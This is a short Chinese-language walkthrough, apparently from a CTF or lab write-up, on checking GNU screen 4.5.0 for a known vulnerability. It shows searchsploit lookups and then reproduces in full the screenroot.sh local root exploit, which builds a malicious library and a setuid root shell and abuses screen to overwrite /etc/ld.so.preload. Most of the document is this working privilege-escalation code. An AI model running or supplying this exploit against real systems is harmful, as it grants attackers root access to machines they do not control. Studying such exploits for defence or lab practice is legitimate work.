 ### 检测screen 4.5漏洞

查看一下漏洞

```bash
searchsploit screen 4.5.0
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403141849270.png" alt="image-20240303154926642" style="zoom:50%;" />

查看一下：

```bash
searchsploit -m linux/local/41154.sh 
```

```sh
#!/bin/bash                                                                                 
# screenroot.sh                                                                             
# setuid screen v4.5.0 local root exploit                                                   
# abuses ld.so.preload overwriting to get root.                                             
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html                
# HACK THE PLANET                                                                           
# ~ infodox (25/1/2017)                                                                     
echo "~ gnu/screenroot ~"                                                                   
echo "[+] First, we create our shell and library..."                                        
cat << EOF > /tmp/libhax.c                                                                  
#include <stdio.h>                                                                          
#include <sys/types.h>                                                                      
#include <unistd.h>                                                                         
__attribute__ ((__constructor__))                                                           
void dropshell(void){                         
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");  
    printf("[+] done!\n");       
}                                             
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c                                                                         
cat << EOF > /tmp/rootshell.c
#include <stdio.h>                            
int main(void){   
    setuid(0); 
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}                              
EOF                                           
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c                        
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc                                       
umask 000 # because                           
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so...
/tmp/rootshell   
```
